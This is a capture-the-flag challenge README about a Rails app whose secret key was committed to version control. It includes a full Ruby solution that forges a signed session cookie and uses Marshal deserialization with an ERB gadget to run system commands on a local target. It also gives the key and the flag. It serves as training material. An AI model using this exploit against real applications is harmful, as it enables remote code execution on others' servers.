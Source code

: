 # Open Source Key Leak

It was (maybe still is?) common for Rails newbs and experts to check the config/secret_key.rb file into their version control system. We did this previously (https://github.com/mitre-cyber-academy/2013-web-400). The original challenge was vulnerable to a SQL injection -- this has been patched, but we are leaving the secret key the same. Usernames, passwords, and the key have also changed. By crafting a cookie using the secret key, competitors can take advantage of a remote code execution by passing a "legit" cookie, having it get un-serialized, and then the code contained in the cookie get executed.


## Solution

Solution credit: http://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/

    require "net/http"
    require "uri"
    require 'erb'
    require 'base64'
    require 'openssl'

    module ActiveSupport
      module Deprecation
        class DeprecatedInstanceVariableProxy
          def initialize(instance, method, var, deprecator)
            @instance = instance
            @method = method
            @var = var
            @deprecator = deprecator
          end
        end
      end
    end


    secret_token = 'c95f554820d160cac5792840a37900b98b30cd61f7dc7260a7532a8ffe15f46ddfd1e9005d648119a4f77d7f4221cb19ee6ef7d0bd4e08a42436502c212e9848'

    erb = ERB.allocate
    erb.instance_variable_set(:@src, 'thing = Message.first.body; system("echo #{thing} >> public/flag.txt");')

    proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "foo", ActiveSupport::Deprecation)
    my_evil_session_hash = {proxy => 'something'}

    # Serialize your hash
    marshal_dump = Marshal.dump(my_evil_session_hash)

    # Base64 encode this dump
    unescaped_cookie_value = Base64.encode64(marshal_dump).gsub("\n", "")

    # Escape any troublesome characters and remove line breaks altogether
    escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

    # Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
    cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

    # Construct your evil cookie by concatenating the value with the signature
    my_evil_cookie = "_rails_messaging_app_session=#{unescaped_cookie_value}--#{cookie_signature}"

    # BOMBS AWAY
    url = URI.parse("http://localhost:3000/") # Make sure you have a trailing / if you are sending to the root path

    req = Net::HTTP::Get.new(url.path)
    req.add_field("Cookie", my_evil_cookie)

    res = Net::HTTP.new(url.host, url.port).start do |http|
        http.request(req)
    end

    puts res.inspect


## Building/Running the Challenge

## Flag

763d661f088cbd9e83ed2d3f6c4865cca6f1d284